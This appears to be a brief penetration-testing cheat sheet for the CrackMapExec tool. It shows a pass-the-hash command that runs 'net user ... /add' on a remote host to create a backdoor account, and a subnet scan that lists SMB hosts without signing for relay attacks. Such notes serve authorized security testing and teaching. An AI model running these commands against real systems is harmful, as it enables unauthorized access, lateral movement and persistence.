 <!-- TITLE: Crackmapexec -->
<!-- SUBTITLE: A quick summary of Crackmapexec -->

# Common CME Runs
## How to execute commands
```text
./crackmapexec.py smb 192.168.10.25 -d . -u compromiseduser -H aad3LMPORTION04eeaad3b435b51404ee:729bb174dNTLMPORTION2f6cd816f377 -x 'net user summit ae2rpw4U!! /add'  
```

## Find Hosts that don't require signing
```
crackmapexec.py smb 192.168.10.0/24 --gen-relay-list targets2
```

